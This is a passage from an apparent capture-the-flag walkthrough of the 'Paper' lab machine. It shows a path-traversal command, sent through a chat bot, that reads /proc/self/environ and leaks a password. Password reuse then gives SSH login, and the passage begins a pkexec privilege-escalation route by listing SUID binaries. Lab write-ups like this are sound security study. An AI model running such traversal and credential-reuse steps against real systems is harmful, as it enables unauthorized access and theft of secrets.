 Checking the environment parameters of rocket chat with  `recyclops file ../../../../proc/self/environ` we find the installation is running from the user dwight's home directory and we also get the password.

[![040_rocket_chat_environ](/img/paper/040_rocket_chat_environ.png)](/img/paper/040_rocket_chat_environ.png)

Testing for password reuse over ssh we are able to log into the machine and grab the user flag.

```js
$ ssh dwight@office.paper
dwight@office.paper's password:
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ wc -c user.txt
33 user.txt
```


# Root

## pkexec
Until some time after release there was an unintended way to obtain root abusing a vulnerable `pkexec` version.
Checking for suid binaries we can see that `pkexec` is installed on the machine.

```js
[dwight@paper ~]$ find / -perm -4000 2>/dev/null
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
```